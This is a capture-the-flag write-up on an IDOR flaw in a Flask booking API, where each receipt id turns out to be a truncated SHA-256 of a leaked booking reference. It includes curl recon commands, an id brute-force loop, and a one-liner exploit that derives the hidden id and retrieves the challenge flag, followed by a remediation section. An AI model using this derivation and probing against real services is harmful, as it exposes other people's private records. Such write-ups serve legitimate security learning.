

# NIGHT BUS, Predictable Object Reference (IDOR), My Writeup

| | |
|---|---|
| **Platform** | pwnzone (hosted CTF event) |
| **Target** | NIGHT BUS ("Collection desk" booking API) |
| **Service** | Flask on **Werkzeug/3.1.9**, Python 3.11.16, HTTP, TCP/8330 (EC2) |
| **IP:Port** | `54.72.82.22:8330` |
| **Flag format** | `safctf{...}` |
| **Author** | lacmyst |
| **Date** | 2026-10-02 |
| **Outcome** | Recovered the hidden second booking's receipt by deriving its "object" id, the id is just `sha256(reference)[:24]`. |
| **Honesty note** | This was my read of the box, `/api/orders` shows two references but only one object, so the task is to get the second one's object. Running with that instinct, I found the exact derivation (object = truncated SHA-256 of the reference). |

---

## 1. The Short Version

`GET /api/orders` on the Night Bus desk returns **one** item (TOUR-2401, with its `object`) plus a `next_reference: TOUR-2402`, a *second* booking whose object it won't give me:
```json
{"items":[{"object":"289290bbb72721bcad2f8717","reference":"TOUR-2401"}],"next_reference":"TOUR-2402"}
```
The receipt endpoint `GET /api/orders/<object>` *looked* broken, every id (even garbage) returned the same `"Two seats, balcony level."`, but that's just the **default for unknown ids**; the real receipt only comes back for the *exact* correct object.

The object isn't a random Mongo id: its leading "timestamp" bytes decode to **1991** (fake). It's actually a **truncated SHA-256 of the reference**: `sha256("TOUR-2401")[:24] == 289290bbb72721bcad2f8717`. So TOUR-2402's object = `sha256("TOUR-2402")[:24]` = `d9522cdd54fa82760ecb6f83`, and fetching it returns the flag.

**What I walked away with**

| Flag | Value | How |
|---|---|---|
| Flag | `safctf{81a90dc817371a5aa190e8069ebcde2c}` | object = `sha256("TOUR-2402")[:24]` → `GET /api/orders/<object>` |

---

## 1.1 Attack Chain



---

## 2. Weakness I Used

| # | What | Class | Where | Severity |
|---|---|---|---|---|
| 1 | The "object" gating a receipt is a **deterministic hash of the public reference**, and the reference is leaked in the listing | **IDOR / Predictable Resource Identifier** (CWE-639 / CWE-340) | `/api/orders/<object>` | High (read other bookings' receipts) |

---

## 3. Recon

The desk documents its own API:
> *GET /api/orders lists booking references. GET /api/orders/OBJECT retrieves a receipt.*

The listing:
```bash
$ curl -s http://54.72.82.22:8330/api/orders
{"items":[{"object":"289290bbb72721bcad2f8717","reference":"TOUR-2401"}],"next_reference":"TOUR-2402"}
```
**Two references, one object.** TOUR-2401 is fully exposed; TOUR-2402 exists (it's the `next_reference`) but its object is withheld. The whole challenge is bridging that gap.

---

## 4. The Apparent Dead End

`GET /api/orders/<object>` returns the same thing for *everything*:
```bash
$ for id in 289290bbb72721bcad2f8717 000000000000000000000000 deadbeef... invalid; do
    curl -s http://54.72.82.22:8330/api/orders/$id; echo
  done
# {"receipt":"Two seats, balcony level."}   (x all of them)
```
So the endpoint doesn't error on bad ids, it returns a **default receipt**. That means the *real* receipt for a booking is only returned when you hit its **exact** object; unknown ids silently fall back to the default. (I also brute-forced the id as if it were a Mongo ObjectId with an incrementing counter, `…2f8718`, `…2f8719`, a whole range, all default. Wrong model.)

---

## 5. The Insight, The Object Is a Hash of the Reference

Two things pointed away from "random id":
1. The receipt is keyed on the object, and the object for TOUR-2401 is *given*.
2. Treating it as a Mongo ObjectId, the 4-byte timestamp `0x289290bb` = **681,775,291** ≈ **1991**, a nonsense creation time. So it's **synthetic**, not a real ObjectId.

Hypothesis: the object is a **hash of the reference**. Test it:
```python
import hashlib
hashlib.sha256(b"TOUR-2401").hexdigest()[:24]
# -> '289290bbb72721bcad2f8717'   == the given object  ✓
```
**Exact match.** The object is simply `sha256(reference)[:24]`. Since the listing *hands me* `next_reference: TOUR-2402`, I can compute its object myself.

---

## 6. The Exploit

```bash
OBJ=$(python3 -c "import hashlib;print(hashlib.sha256(b'TOUR-2402').hexdigest()[:24])")
echo "$OBJ"   # d9522cdd54fa82760ecb6f83
curl -s http://54.72.82.22:8330/api/orders/$OBJ
# {"receipt":"safctf{81a90dc817371a5aa190e8069ebcde2c}"}
```

> **Flag:** `safctf{81a90dc817371a5aa190e8069ebcde2c}`

The second booking's receipt is the flag, readable by anyone who knows its reference, because the "object" protecting it is derivable.

---

## 7. Why It Worked & How I'd Fix It

- *Cause:* the resource identifier (`object`) is a **deterministic function of a public value** (`sha256(reference)[:24]`), and the reference is disclosed in the listing. Knowing a reference ⇒ computing its object ⇒ reading its receipt (an **IDOR**). The "default receipt for unknown ids" even hides that you're probing.
- *Fix:* make identifiers **unguessable and non-derivable**, random UUIDv4 / 128-bit tokens generated server-side and stored, never a hash of public data. And, more importantly, enforce **authorization**: a receipt should be returned only to a session/user entitled to that booking, not to anyone who can name the object. Return `404`/`403` for ids the caller isn't allowed to see, rather than a lookalike default.

---

## 8. Timeline

- `GET /api/orders` → TOUR-2401 (+object) and `next_reference: TOUR-2402` (no object).
- `GET /api/orders/<id>` → same default receipt for every id (incl. garbage) → looked dead; ObjectId-counter brute also failed.
- Noticed the object's "timestamp" = 1991 → synthetic, not a real ObjectId.
- Tested `sha256("TOUR-2401")[:24]` → **matched** the given object.
- Computed `sha256("TOUR-2402")[:24]` = `d9522cdd54fa82760ecb6f83` → `GET` it → **flag**.

---

## 9. References

- OWASP: **IDOR / Broken Object Level Authorization (BOLA)**, API Security Top 10 #1
- CWE-639 (Authorization Bypass Through User-Controlled Key), CWE-340 (Predictable from Observable State)
- MongoDB ObjectId layout (how to recognise a *fake* one by its timestamp bytes)

---

## 10. Appendix, One-liner

```bash
OBJ=$(python3 -c "import hashlib;print(hashlib.sha256(b'TOUR-2402').hexdigest()[:24])")
curl -s http://54.72.82.22:8330/api/orders/$OBJ
# {"receipt":"safctf{81a90dc817371a5aa190e8069ebcde2c}"}
```
Two lessons I'm keeping: **when an API hands you a reference but hides its object, check whether the object is derivable** (hash the reference and compare to a known object); and **a "same answer for every id" endpoint isn't necessarily broken, it may be masking unknown ids behind a default**, so verify your id model (ObjectId? hash? sequence?) before brute-forcing.
